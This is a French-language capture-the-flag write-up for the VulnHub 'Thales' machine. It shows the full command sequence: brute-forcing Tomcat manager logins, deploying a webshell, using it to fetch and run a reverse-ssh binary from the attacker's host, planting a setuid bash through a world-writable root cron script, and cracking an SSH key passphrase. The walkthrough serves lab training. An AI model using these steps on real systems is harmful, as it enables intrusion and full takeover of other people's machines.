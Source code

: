 ```yaml
---
title: "Solution du CTF Thales de VulnHub"
tags: [CTF, VulnHub]
---
```


[Ce CTF](https://www.vulnhub.com/entry/thales-1,749/) proposé sur VulnHub a été créé par [machineboy414](https://twitter.com/machineboy141) qui est déjà l'auteur de la série de CTFs KB-VULN pour lesquels j'ai déjà écrit quelques writeups.

On lance notre scanner de ports favoris et... oh ! un Tomcat !

```
Starting Nmap 7.93 ( https://nmap.org )
Nmap scan report for 192.168.56.39
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8c19ab9172a571d86d751d8f65dfe132 (RSA)
|   256 906ea0eed5296cb97b05dbc6825c19bf (ECDSA)
|_  256 544d7be8f97f21343eed0fd9fe93bf00 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.52
|_http-title: Apache Tomcat/9.0.52
|_http-favicon: Apache Tomcat
MAC Address: 08:00:27:72:5B:09 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

J'ai beau avoir croisé quelques Tomcat dans les CTFs il fallait que je retrouve la liste d'identifiants habituels pour cette application.

Les différents liens sur le site mènent en effet presque tous à une demande d'authentification. Notemment si on tente d'accèder à `/manager`.

J'ai recherché un outil de brute force pour Tomcat mais j'aurais très bien avoir recours sau classique Hydra. J'ai finalement jeté mon dévolu sur [ce petit script Python](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce) qui n'a besoin que de deux dépendances (`requests` et `termcolor`).

Je lui ait fournit en entrée deux wordlists provenant de fuzzdb, l'une pour les noms d'utilisateurs et l'autre pour les mots de passe.

```bash
$ python mgr_brute.py -U http://192.168.56.39:8080/ -u tomcat_mgr_default_users.txt -p tomcat_mgr_default_pass.txt -P /manager

[+] Atacking.....

[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'role1'
```

Une fois connecté je remarque qu'il y a une entrée */shell/* dans les applis déployées. La page n'affichant que du vide j'ai tenté de débusquer un éventuel paramètre valide pour le script:

```bash
$ ffuf -u "http://192.168.56.39:8080/shell/?FUZZ=id" -w common_query_parameter_names.txt -fs 6
```

Cela n'a malheureusement mené nul part. J'aurais aimé pouvoir télécharger le fichier war correspondant au déploiement depuis le Tomcat mais c'est visiblement impossible.

J'ai donc du employer la classique technique de déploiement d'une archive war que j'ai trouvé pour l'occasion [sur ce projet github](https://github.com/p0dalirius/Tomcat-webshell-application).

Une fois déployé on utilise la commande fournie en exemple:

```bash
curl -X POST 'http://192.168.56.39:8080/webshell/api' --data "action=exec&cmd=id"
{"stdout":"uid=999(tomcat) gid=999(tomcat) groups=999(tomcat)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

Je rappatrie ensuite un reverse-ssh sur la machine:

```bash
curl -X POST 'http://192.168.56.39:8080/webshell/api' --data "action=exec&cmd=wget -O /opt/tomcat/reverse-ssh http://192.168.56.1:8000/reverse-sshx64"
```

Je lance d'abord reverse-ssh en écoute sur ma machine:

```bash
./reverse-sshx64 -l -p 9999 -v
```

puis je lance le tunnel depuis la VM:

```bash
curl -X POST 'http://192.168.56.39:8080/webshell/api' --data "action=exec&cmd=/opt/tomcat/reverse-ssh -p 9999 192.168.56.1"
```

Le tunnel est bien établi :

```
2022/11/03 17:04:47 Starting ssh server on :9999
2022/11/03 17:04:47 Success: listening on [::]:9999
2022/11/03 17:05:05 Successful authentication with password from reverse@192.168.56.39:54578
2022/11/03 17:05:05 Attempt to bind at 127.0.0.1:8888 granted
2022/11/03 17:05:05 New connection from 192.168.56.39:54578: tomcat on miletus reachable via 127.0.0.1:8888
```

Je n'ai plus qu'à me connecter au port forwardé localement:

```bash
$ ssh -p 8888 127.0.0.1
The authenticity of host '[127.0.0.1]:8888 ([127.0.0.1]:8888)' can't be established.
RSA key fingerprint is SHA256:ouF/tUjdBRFlHLkk1CgdY/xcer/6epVHyR9k0gDiNeI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:8888' (RSA) to the list of known hosts.
devloop@127.0.0.1's password: 
tomcat@miletus:/$ id
uid=999(tomcat) gid=999(tomcat) groups=999(tomcat)
```

Je fouille direct dans le dossier `/home` et je vois des éléments intéressants:

```bash
tomcat@miletus:/$ ls /home/thales/ -al
total 52
drwxr-xr-x 6 thales thales 4096 Oct 14  2021 .
drwxr-xr-x 3 root   root   4096 Aug 15  2021 ..
-rw------- 1 thales thales  457 Oct 14  2021 .bash_history
-rw-r--r-- 1 thales thales  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 thales thales 3771 Apr  4  2018 .bashrc
drwx------ 2 thales thales 4096 Aug 15  2021 .cache
drwx------ 3 thales thales 4096 Aug 15  2021 .gnupg
drwxrwxr-x 3 thales thales 4096 Aug 15  2021 .local
-rw-r--r-- 1 thales thales  807 Apr  4  2018 .profile
-rw-r--r-- 1 root   root     66 Aug 15  2021 .selected_editor
drwxrwxrwx 2 thales thales 4096 Aug 16  2021 .ssh
-rw-r--r-- 1 thales thales    0 Oct 14  2021 .sudo_as_admin_successful
-rw-r--r-- 1 root   root    107 Oct 14  2021 notes.txt
-rw------- 1 thales thales   33 Aug 15  2021 user.txt
```

Le fichier *notes.txt* contient le message suivant :

> I prepared a backup script for you.
> The script is in this directory "/usr/local/bin/backup.sh".
> Good Luck.

On peut lire la clé privée SSH de l'utilisateur mais pas écrire à l'intérieur (SSH aurait sans doute gueulé sinon).

Cette clé privée est toutefois protégée par une passphrase donc laissons la de côté.

On voit que le script cité appartient à root mais est world-writable :

```bash
tomcat@miletus:/home/thales/.ssh$ ls -al /usr/local/bin/backup.sh
-rwxrwxrwx 1 root root 612 Oct 14  2021 /usr/local/bin/backup.sh
```

Il créé des archives compressées du dossier /opt/tomcat :

```bash
#!/bin/bash
####################################
#
# Backup to NFS mount script.
#
####################################

# What to backup. 
backup_files="/opt/tomcat/"

# Where to backup to.
dest="/var/backups"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```

Et visiblement le script est exécuté par root :

```bash
tomcat@miletus:/home/thales/.ssh$ ls -al /var/backups
total 36508
drwxr-xr-x  2 root root     4096 Nov  3 14:56 .
drwxr-xr-x 13 root root     4096 Aug  6  2020 ..
-rw-r--r--  1 root root    33750 Oct 14  2021 apt.extended_states.0
-rw-r--r--  1 root root     3614 Aug 15  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root 11573824 Aug 16  2021 miletus-Monday.tgz
-rw-r--r--  1 root root 11572776 Aug 15  2021 miletus-Sunday.tgz
-rw-r--r--  1 root root 14182418 Nov  3 18:10 miletus-Thursday.tgz
```

La date du dernier fichier semble changer toutes les 5 minutes.

Je rajoute deux petites commandes en fin de script :

```bash
echo "cp /bin/bash /tmp/; chmod 4755 /tmp/bash" >> /usr/local/bin/backup.sh
```

On obtient notre shell attendu rapidement :

```bash
tomcat@miletus:/home/thales/.ssh$ ls -al /tmp/bash
-rwsr-xr-x 1 root root 1113504 Nov  3 18:20 /tmp/bash
tomcat@miletus:/home/thales/.ssh$ /tmp/bash -p
bash-4.4# id
uid=999(tomcat) gid=999(tomcat) euid=0(root) groups=999(tomcat)
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
3a1c85bebf8833b0ecae900fb8598b17
bash-4.4# cat /home/thales/user.txt
a837c0b5d2a8a07225fd9905f5a0e9c4
```

## Alternative happy end

On peut finalement casser la passphrase de la clé SSH :

```
./john --wordlist=rockyou.txt  ssh_key.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
vodka06          (/tmp/thales.key)     
1g 0:00:00:00 DONE (2022-11-03 18:24) 1.020g/s 2918Kp/s 2918Kc/s 2918KC/s vodka121..vodka&l
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

La connexion avec la clé échoue (sans doute à cause des mauvaises permissions) mais depuis le compte *tomcat* on peut *su* vers *thales* avec le mot de passe.

On ne peut pas utiliser sudo depuis cet utilisateur. La ligne qui nous aurait aidé a été commentée :

```
# Allow members of group sudo to execute any command
#sudo   ALL=(ALL:ALL) ALL
```

L'utilisateur fait toutefois partie du groupe lxd donc il doit être possible de faire une escalade de privlège par là.

En conclusion un CTF simple mais plutôt réaliste.

*Publié le 3 novembre 2022*
